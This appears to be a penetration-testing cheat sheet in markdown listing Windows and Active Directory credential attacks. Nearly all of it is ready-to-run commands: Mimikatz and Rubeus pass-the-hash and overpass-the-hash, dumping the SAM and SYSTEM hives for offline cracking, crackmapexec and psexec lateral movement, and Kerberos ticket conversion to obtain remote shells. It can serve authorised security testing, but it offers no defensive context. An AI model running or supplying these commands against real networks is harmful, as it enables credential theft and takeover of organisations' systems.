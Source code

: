 ## Get shell using hashes
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:UserName /domain:DomainName /ntlm:HASH /run:powershell.exe"'
```

## Offline cracking
```
reg save HKLM\SYSTEM SystemBkup.hiv
reg save HKLM\SAM SamBkup.hiv
lsadump::sam /system:SystemBkup.hiv /sam:SamBkup.hiv (Mimikatz)
```

## Spraying
- Spray passwords and hashes

## Pass the Hash
```
psexec -hases <hash> <domain>/<user>@<ip>
pth-winexe -U <user>%<hash> //<ip> cmd
crackmapexec smb <ip-range> -u <user> -H <nt-hash> (for AD accounts)
crackmapexec smb <ip-range> -u <user> -H <nt-hash> --local-auth (for local accounts)
psexec.py <user>:@<IP> -hashes <NTLM-hash>
```

## Overpass the Hash
```
Rubeus.exe asktgt /user:<username> /aes256:<hash> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash> /run:PowerShell.exe (In Mimikatz)
```
- psexec.exe to run commands remotely or do 'net user <computer>' and then do ptt attack

## Pass the Password
```
crackmapexec smb <ip/range> -u <user> -d <domain> -p <password>
crackmapexec smb <ip/range> -u <user> -p <password> --local-auth
crackmapexec smb <ip/range> -u <user> -d <domain> -p <password> --sam
```

## Converting kirbi tickets to ccache and getting a shell 
```
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=/home/kali/ticket.ccache
impacket-psexec domain/user@IP or hostname -k -no-pass

mimikatz.exe "kerberos::ptt ticket.kirbi" or
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist
.\PsExec.exe -accepteula \\hostname cmd
```

